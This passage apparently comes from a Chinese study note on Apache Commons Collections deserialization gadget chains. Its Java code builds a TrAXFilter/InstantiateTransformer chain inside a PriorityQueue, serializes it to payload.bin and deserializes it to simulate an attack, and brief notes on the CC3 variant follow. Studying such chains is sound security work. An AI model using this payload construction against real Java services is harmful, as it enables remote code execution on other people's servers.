 ```java
        org.apache.commons.collections4.functors.InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        org.apache.commons.collections4.Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer<>(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformerField = c.getDeclaredField("transformer");
        transformerField.setAccessible(true);
        transformerField.set(transformingComparator, chainedTransformer);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(priorityQueue);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化
        fin.readObject();
    }

}
```

## CC3

对父类的判断

![Untitled](attachments/CC链%20attachments/Untitled%209.png)

也就是需要加载的恶意类满足父类的限制

![Untitled](attachments/CC链%20attachments/Untitled%2010.png)

报错的原因是为抽象类，需要实现抽象方法

[https://www.notion.so](https://www.notion.so)

只有一个抽象方法transform

![Untitled](attachments/CC链%20attachments/Untitled%2011.png)
